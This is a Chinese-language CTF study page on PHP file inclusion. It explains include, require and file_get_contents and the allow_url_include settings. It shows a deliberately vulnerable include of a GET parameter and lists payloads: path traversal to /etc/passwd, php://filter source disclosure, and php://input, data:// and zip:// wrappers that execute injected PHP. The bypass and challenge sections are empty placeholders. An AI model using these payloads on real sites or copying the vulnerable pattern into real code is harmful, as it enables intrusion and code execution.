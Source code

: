 ```yaml
---
title: "文件包含" 
weight: 4
bookToc: true
---
```


## 文件包含

几平所有的编程语言都会提供文件包含功能，目的是将可重复使用的代码写到单个文件中，通过包含文件复用之前的代码逻辑，如C语言的`#include`

ctf web题目中，如果涉及考查文件包含知识点，则对应web大概率是**由php编写**，通过文件包含主要的目的有**以下2点**：
- 最终步骤：包含flag文件，获取flag
- 中间步骤：包含xxx.php，搭配文件上传触发脚本执行；或者获取对应代码，进行代码审计（**主要情形**）

当获取不到代码的时候，且页面有明显文件包含功能时，可以使用`?page=../../../../../etc/passwd`，基于网页回显判断是否存在文件包含漏洞

## 关键函数

php中的文件包含涉及到以下函数，先理解以下函数的作用
- `include/include_once/require/require_once`，由 `allow_url_include = on/off` 决定是否可以访问各种类型的数据流（built-in wrappers for various URL-style protocols），即使用伪协议
- `file_get_contents/fopen`等filesystem相关函数，由 `allow_url_fopen = on/off` 决定是否可以访问各种类型的数据流（built-in wrappers for various URL-style protocols），即使用伪协议

一些说明：
- `allow_url_include = on`设置生效，需要`allow_url_fopen`设置为`on`
- `allow_url_fopen`默认`on`，`allow_url_include`默认`off`
- `allow_url_include`PHP 7.4.0版本已经不支持，只在PHP 7.3和版本中设置生效

![](/data/image/web-allow-url-include.png)
![](/data/image/web-allow-url-include2.png)

### include/include_require

include 用于在 PHP 脚本中包含并执行另一个文件，包含的文件会被当成php代码执行，如果包含的文件不存在或者因某些原因无法加载，include 将发出一个警告（E_WARNING），但脚本**将继续执行**。适合于那些非关键的文件包含，比如界面元素或者某些可选的功能组件。

include_once 功能类似于 include，也是用于包含并执行文件。不同之处在于它会首先检查该文件是否已经被包含过，如果是，**则不会再次包含**。

代码段如下
```php
<?php
    $file = $_GET['page'];
    include $file;
?>
```

### require/require_once

require 与 include 类似，但其差异在于错误处理。如果 require 的文件不存在或无法加载，PHP 将发出致命错误（E_COMPILE_ERROR），**并停止脚本执行**。适用于那些对脚本运行至关重要的文件，如配置文件或核心库文件。

require_once 功能类似于 require，也是用于包含并执行文件。不同之处在于它会首先检查该文件是否已经被包含过，如果是，**则不会再次包含**。

### file_get_contents/fopen

`file_get_contents()`用于一次性将整个文件的内容读取到一个字符串中，本身不会将对应内容作为PHP 代码执行，这点与include不同。
```php
<?php
$content = file_get_contents('filename.txt');
echo $content;
?>
```

关于是否将结果返回给浏览器，这取决于你对这个字符串如何处理，如显式使用 echo、print 或其他输出语句

`fopen()` 函数提供了更多的灵活性，它用于打开文件或 URL，返回一个文件指针，之后可以使用其他函数（如 `fgets()`, `fread()`, 和 `fwrite()`）来读取或写入文件。参考代码略。

## 伪协议

php提供了各种伪协议，[built-in wrappers for various URL-style protocols](https://www.php.net/manual/en/wrappers.php)，具体查询链接中的信息每个伪协议是否受`allow_url_fopen/allow_url_include`限制

ctf常考的伪协议用法如下：
```
?page=file:///etc/passwd

?page=php://filter/string.toupper/resource=flag.php
?page=php://filter/convert.base64-encode/resource=flag.php # 用于读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了
?page=php://filter//convert.iconv.SJIS*.UCS-4*/resource=flag.php 
# convert.iconv.<input-encoding>.<output-encoding>，支持的编码参看，https://www.php.net/manual/en/mbstring.supported-encodings.php

?page=php://input
【POST Data】: <?php phpinfo(); ?>  # 当 enctype="multipart/form-data" 时，php://input 是无效的

?page=data://text/plain,<?php phpinfo()?>
?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

?page=zip://./file.jpg%23phpcode.txt 
# 先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩，压缩文件名为file.zip；如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后再上传
?page=compress.bzip2://./file.jpg # compress.bzip2 php特有流封装器在PHP中用于bzip2压缩单个文件
?page=compress.zlib://./file.jpg # 同上
```

## 绕过

TODO

## 题目

{{< expand "题目 攻防世界-Web-文件包含" "..." >}}
TODO
{{< /expand >}}